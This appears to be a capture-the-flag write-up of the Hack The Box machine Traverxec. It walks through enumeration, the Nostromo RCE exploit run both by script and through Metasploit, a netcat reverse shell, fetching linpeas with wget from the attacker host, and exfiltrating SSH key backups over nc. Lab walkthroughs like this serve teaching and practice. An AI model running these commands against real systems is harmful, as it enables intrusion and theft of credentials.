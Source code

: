 ```yaml
---
title: "Traverxec"
excerpt: "Traverxec is an easy linux box that features a Nostromo Web Server, which is vulnerable to Remote Code Execution (RCE)."
#layout: single
header:
  image: "/images/writeups.png"
  teaser: /images/traverxec/traverxec_bio.png
share_image: /images/traverxec/traverxec_bio.png
author_profile: false
tags:
  - Writeup
  - kali
  - hack the box
sidebar:
  - title: "Traverxec"
    image: /images/traverxec/traverxec_bio.png
    image_alt: "Traverxec"
    text: "Hack The Box"
  - nav: sidebar-traverxec
classes: 
   - wide
   - dark
toc: true
---
```


# Overview

Traverxec is an easy linux box that features a Nostromo Web Server, which is vulnerable to Remote Code Execution (RCE). The Web server configuration files lead us to SSH credentials, which allow us to move laterally to the user `david`. A bash script in the user's home directory reveals that the user can execute `journalctl` as root, which is exploited to spawn a `root` shell!

---

# Enumeration

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.165 | grep ^[0-9] | cut -d '/' -f
1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.10.165
```

![Initial NMAP](/images/traverxec/nmap.png)

Once the scan completes, it reveals ports 22 and 80 are open. NMAP also reports that the `http-server-header` is `nostromo 1.9.6`, which indicates the box is running the `Nostromo` HTTP server.

---

# Nostromo

![Nostromo](/images/traverxec/nostromo.png)

The webpage appears to be pretty empty, resulting in very little information at first look. So, we fire off a gobuster:

```bash
gobuster dir -u http://10.10.10.165 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -n
```

While we let gobuster run in the background, I look to Google. After a bit of digging, we find that Nostromo version 1.9.6 has a <a href="https://www.exploit-db.com/exploits/47837">Remote Code Execution</a> vulnerability. Being that this exploit is found on Exploit-DB, that usually means there is a Metasploit module for it - which means we can "manually" exploit it or use Metasploit. I'll show both ways.

---
# "Manual" exploitation

First, we need to copy the exploit from exploit-db and inspect it:

```bash
searchsploit -m /multiple/remote/47837
```


![Exploit](/images/traverxec/payload.png)

**The heck is going on?**

Interesting. We're exploiting the `http_verify` function in nostromo nhttpd. Which is allowing us remote code execution. Let's test it out:

```bash
python 47837.py 10.10.10.165 80 id
```
![Response](/images/traverxec/id.png)

Ok, cool, we got a response. Lets setup a listener and try to get a shell:

```bash
nc -lvnp 9001
```

```bash
python 47837.py "nc -e bash 10.10.10.165 9001"
```

And........ We get a shell

---
# Metasploit

Now that we've manually exploited Nostromo, let's automate it with `Metasploit`.

```bash
msfconsole
msf > use exploit/multi/htto/nostromo_code_exec
msf > set rhost 10.10.10.165
msf > set lhost 10.10.14.40
msf > run
```
> *Make sure you set lhost to YOUR machines IP.*

![Metasploit](/images/traverxec/metasploit.png)

After we fire off the exploit, we get a shell:

![Metasploit-Shell](/images/traverxec/meta-shell.png)

---
# Stabelize Shell
Let's move forward with our manual shell. But first, we need to stabelize it. I don't know about you, but I can't live without TAB auto-cmplete!

The target machine is Linux, so it *SHOULD* have `Python` installed, but lets check anyway.
```bash
which python
/usr/bin/python
```
*Let's spawn a TTY shell!* 
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z (to background)
stty raw -echo
fg [enter] (to send to foreground)
```
We should now have a stable shell!

---
# Automated Target Enumeration

I think it's important to always have some sort of enumeration running while we're working. So, one of the first things I do on a box is to get some sort of automated enuermation running. For Linux, I like to use `Linpeas`. There's a couple of ways we can get this onto the box, but normally I'll just `wget` it from my kali box.

*On Attacker Machine, in the Linpeas directory*
```bash
python -m SimpleHTTPServer
```

*On Target Machine*
```bash
cd /tmp/
wget 10.10.14.10:8000/linpeas.sh
```
![Linpeas](/images/traverxec/linpeas-wget.png)

Now that we have Linpeas, we use `chmod +x` to make it an executable and then `.\linpeas.sh` to run it.

![Linpeas](/images/traverxec/linpeas.png)

---
# Manual Target Enumeration

We have linpeas running, so now we can start manually enumerating the box. We check `/etc/passwd` and find the user `David` exists. It also shows us the web root for nostromo is `/var/nostromo/`. The `/var/nostromo/conf` directory, which contains the `.htpasswd` which leaks a crackable hash. We also find the file `nhttpd.conf` which reveals some interesting information. The file has a section called `HOMEDIRS` and hints towards `public_www` folders in a user's home directory.

```bash
ls -la /home/david/public_www/
ls -la /home/david/public_www/
```

![Protected-Area](/images/traverxec/enum-protected.png)

**BINGO!** We find `backup-ssh-identity-files.tgz`. Let's exfiltrate it!

*On Attacker Machine*
```bash
nc -lvp 1234 > backup-ssh-identity-files.tgz
```

*On Target Machine*
```bash
nc 10.10.14.40 < /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
```
Let's extract the files. 

```bash
tar -xvf backup-ssh-identity-files.tgz
```
The archive contains SSH keys, one of them being the private key `id_rsa`.

*Before we continue, lets check in on Linpeas*

![Linpeas-Hash](/images/traverxec/linpeas-hash.png)

Looks like it found the same hash we did. Time to crack it!

---
### Hashcat

> As a disclaimer, this is a small rabbit-hole, but not entirely useless. If you didn't find the hidden directory in David's home directory, this was another way to get the same end result.



